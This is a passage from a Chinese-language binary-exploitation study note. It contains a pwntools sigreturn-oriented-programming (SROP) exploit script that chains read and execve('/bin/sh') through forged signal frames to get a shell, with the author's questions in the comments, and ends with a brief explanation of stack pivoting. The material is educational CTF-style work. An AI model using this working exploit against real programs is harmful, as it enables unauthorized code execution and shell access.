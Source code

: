     #构造 frame，表示 read(0,stack_addr,0x400)
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_read
    frame.rdi = 0x0
    frame.rsi = stack_addr
    frame.rdx = 0x400
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    payload = p64(main_addr) + p64(0) + str(frame)
    p.send(payload)
    
    #通过控制输入的字符数量，调用 sigreturn
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)    
    #疑问：之前构造 farme 时，我们只往栈上写了 8 个字节的 0，现在写入 15 个字节，那么多余的 7 个字节不会淹没构造的 frame(read) 吗？这可能与 pwntools 实现的 SigreturnFrame 内部的具体结构有关
    
    #输入 15 个字节后，此时 rax 是 15，程序执行完 read 之后，ret 跳转到 syscall，执行 sigreturn 系统调用，根据 frame 设定的结构，程序接下来会执行 read(0,stack_addr,0x400)
    #疑问：sigreturn 以什么为依据来确定栈中的 sigframe，怎么确定使用的是我们给定的 frame(read)
    
    #read(0,stack_addr,0x400) 执行完之后，等待数据的输入，此时我们需要输入构造的 frame(execve),至于 binsh 字符串可以将它放在栈的后面部分，只要 rdi 能够正确的指向他的地址即可
    #构造拿 shell 的 frame
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = stack_addr + 0x150    #binsh 字符串的地址，后面会构造
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    frame_payload = p64(main_addr) + p64(0) +str(frame)
    payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
    p.send(payload)
    
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    
    p.interactive()
    ```
    

## 花式栈溢出技巧-stack pivoting

### 原理

栈迁移：劫持栈指针指向攻击者所能控制的内存处，然后再在相应的位置进行 ROP

### 使用场景

-   可以控制的栈溢出的字节数较少，难以构造较长的 ROP 链
-   开启了 PIE 保护，栈地址未知，我们可以将栈劫持到已知的区域。
-   其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而在堆上写 rop 及进行堆漏洞利用
